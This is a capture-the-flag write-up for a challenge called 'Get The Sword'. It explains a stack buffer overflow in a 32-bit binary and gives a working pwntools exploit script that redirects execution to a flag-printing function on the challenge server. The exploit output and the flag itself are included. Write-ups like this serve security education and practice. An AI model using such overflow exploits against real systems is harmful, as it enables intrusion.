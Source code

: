 https://ctftime.org/event/2209/

# Get The Sword

Welcome to the enigmatic realm of identity cards, guarded by a mysterious code. Journey through the shadows and exploit the hidden vulnerabilities within the ID card system.

Connection Information

`nc 173.255.201.51 31337`

## Solution

```
$ file ./get_sword 
./get_sword: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=4a9b260935bf815a04350e3bb9e0e4422f504b2a, for GNU/Linux 4.4.0, not stripped
```

`01922e0f6804b2427bfe622e6af4aaf9bbbc835193eb22511b00f41fc67ee065  ./get_sword`


You can see that the function `intro/0x8049256` has a stack buffer overflow with `scanf` and `%s`. There are 0x20 bytes on the stack before the return address.

You can see that there is a function called `getSword/0x8049218` which `cat`s the flag.

```
from pwn import *

GET_SWORD = 0x08049219

#p = process("./get_sword")
p = remote("173.255.201.51", 31337)
#gdb.attach(p, gdbscript="")

p.readuntil(b"What do you want ? ?: ")

payload = b"A" * 0x20
payload += p32(GET_SWORD)
p.sendline(payload)

p.interactive()
```

```
$ python3 ./go.py 
[+] Opening connection to 173.255.201.51 on port 31337: Done
[*] Switching to interactive mode
KCTF{so_you_g0t_the_sw0rd}
You want, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x19\x04
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to 173.255.201.51 port 31337
```

## Flag
`KCTF{so_you_g0t_the_sw0rd}`
